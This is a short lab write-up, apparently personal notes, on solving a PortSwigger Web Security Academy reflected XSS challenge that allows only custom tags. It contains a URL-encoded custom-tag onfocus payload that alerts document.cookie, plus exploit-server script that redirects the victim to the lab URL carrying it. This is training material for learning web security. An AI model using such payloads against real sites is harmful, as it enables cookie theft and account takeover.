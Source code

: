 ```yaml
---
image: "img/Portswigger/xss.png"
---
```


--> Here most of the tags are blocked. only custom tags are allowed so we have to use payloads with custom tags

With custom tag, we can use most of the events but in most of the events user have to do something to trigger the payload. But then i found that `focus` is very easy to do and that's why i chosen focus payload

--> Also i found same payload for focus on this website :

- https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting

which was like this :

```html
%3Cxss+id%253dx+onfocus%253dalert(document.cookie)+tabindex%253d1%3E#x
```

--> Now goto `exploit server` and then add below code and then click `store` and then `send to victim`

(idk why they used script and location to give the link to victim, i also found similar payload on hacktricks but it didn't worked :/ )

```html
<script>
  location =
    "https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x";
</script>
```
